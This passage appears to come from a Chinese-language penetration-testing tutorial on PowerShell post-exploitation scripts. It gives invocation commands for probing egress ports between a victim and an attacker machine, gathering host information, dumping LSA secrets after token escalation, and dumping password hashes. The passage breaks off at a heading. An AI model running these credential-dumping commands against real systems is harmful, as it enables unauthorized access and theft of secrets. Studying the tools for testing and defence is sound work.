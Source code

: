 我们首先在我们的机器（Attacker）上面运行FireListener：

```
FireListener 100-110
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01bf396dcdcab17102.jpg)

Victim：

```
FireBuster 192.168.199.1 90-110 -Verbose
```

[![](https://p1.ssl.qhimg.com/t017fd490758d1b93f0.jpg)](https://p1.ssl.qhimg.com/t017fd490758d1b93f0.jpg)

Get-Information

这个脚本可以获取目标机器上大量的信息（FTP访问，进程，计算机配置信息，无线网络和设备的信息，Hosts信息等等非超丰富）。 

执行方式：

```
PS &gt; Get-Information
```

[![](https://p4.ssl.qhimg.com/t01f25be5baee48e1d0.jpg)](https://p4.ssl.qhimg.com/t01f25be5baee48e1d0.jpg)

还可以用我们前面说过的Out-File来将运行结果保存到指定文件。

Get-LSASecret

该脚本可以获取LSA信息，但是使用的前提当然是你已经成功提升了权限的情况下，通常和我们后面提权当中涉及到的Enable-DuplicateToken（帮助我们获得System权限）联合使用。 

执行方式：



```
PS &gt; Enable-DuplicateToken
PS &gt; Get-LsaSecret
PS &gt; Get-LsaSecret -RegistryKey KeyName //还可以指定键名
```

Get-PassHashes

这个脚本在Administrator的权限下，可以dump出密码哈希值。这个脚本来自于msf中powerdump，但做出了修改，使得我们不再需要System权限就可以dump了。 

执行方式：

```
PS &gt; Get-PassHashes -PSObjectFormat //可以使用-PSObjectFormat来格式化输出结果
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t014a298b31f2bda3a5.jpg)

Get-WLAN-Keys
